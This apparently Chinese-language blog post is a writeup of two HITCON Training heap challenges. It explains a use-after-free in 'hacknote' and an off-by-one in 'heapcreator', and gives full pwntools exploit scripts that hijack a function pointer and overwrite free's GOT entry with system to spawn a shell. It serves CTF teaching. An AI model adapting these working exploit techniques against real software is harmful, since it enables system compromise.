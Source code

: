 ```yaml
---
layout:		post
title:		HITCON Training writeup
author:		wooy0ung
tags:		pwn
category: 	writeup
---
```



>[索引目录]  
>0x010 hacknote(uaf)  
>0x013 heapcreator(off by one)  
<!-- more -->


## 0x010 hacknote(uaf)

delete操作没有清空指针，导致的uaf。程序malloc了8 byte的fastbin存函数指针以及size
![](/assets/img/writeup/2018-04-11-hitcon-training-writeup/0x010-001.png)

show操作call了该指针，把chunk的函数指针劫持到magic打印出flag
![](/assets/img/writeup/2018-04-11-hitcon-training-writeup/0x010-002.png)

exp.py
```
#!/usr/bin/env python
# -*- coding: utf-8 -*-
from pwn import *

s = process("./hacknote")
elf = ELF("./hacknote")

def add(con):
	s.sendlineafter("Your choice :","1")
	s.sendlineafter("size :",str(len(con)))
	s.sendlineafter("Content :",con)

def show(idx):
	s.sendlineafter("Your choice :","3")
	s.sendlineafter("Index :",str(idx))

def delete(idx):
	s.sendlineafter("Your choice :","2")
	s.sendlineafter("Index :",str(idx))

magic_addr = 0x08048986

add("A"*0x40)
add("A"*0x40)
add("A"*0x40)

delete(0)
delete(1)

add(p32(magic_addr))
show(0)
s.interactive()
```
![](/assets/img/writeup/2018-04-11-hitcon-training-writeup/0x010-003.png)


## 0x013 heapcreator(off by one)

指针被清空，不能利用uaf
![](/assets/img/writeup/2018-04-11-hitcon-training-writeup/0x013-001.png)

edit操作读取size+1 byte，造成off by one
![](/assets/img/writeup/2018-04-11-hitcon-training-writeup/0x013-002.png)

申请chunk0、chunk1，确保chunk1与该处malloc的size相同，off by one修改掉chunk1的size位
![](/assets/img/writeup/2018-04-11-hitcon-training-writeup/0x013-003.png)

free掉chunk1，再请求分配2*size-0x10的chunk，该chunk的content就会包含存放ptr、size位的结构
可以leak出got表地址
![](/assets/img/writeup/2018-04-11-hitcon-training-writeup/0x013-004.png)

exp.py
```
from pwn import *

s = process("./heapcreator")
elf = ELF("./heapcreator")
libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")

def create(size,con):
	s.sendlineafter("Your choice :","1")
	s.sendlineafter("Size of Heap : ",str(size))
	s.sendlineafter("Content of heap:",con)

def edit(idx,con):
	s.sendlineafter("Your choice :","2")
	s.sendlineafter("Index :",str(idx))
	s.sendlineafter("Content of heap : ",con)

def show(idx):
	s.sendlineafter("Your choice :","3")
	s.sendlineafter("Index :",str(idx))

def delete(idx):
	s.sendlineafter("Your choice :","4")
	s.sendlineafter("Index :",str(idx))

free_got = elf.got["free"]

create(0x18,"AAAA")
create(0x10,"AAAA")
edit(0,"/bin/sh\x00"+"A"*0x10+"\x41")

delete(1)

create(0x30,p64(0)*4+p64(0x30)+p64(free_got))
show(1)

s.recvuntil("Content : ")
data = s.recvuntil("\n")[:-1]
free_addr = u64(data.ljust(8,"\x00"))
log.info("free_addr: %#x",free_addr)

libc_base = free_addr - libc.symbols["free"]
system_addr = libc.symbols["system"] + libc_base
log.info("system_addr: %#x",system_addr)

edit(1,p64(system_addr))
delete(0)

s.interactive()
```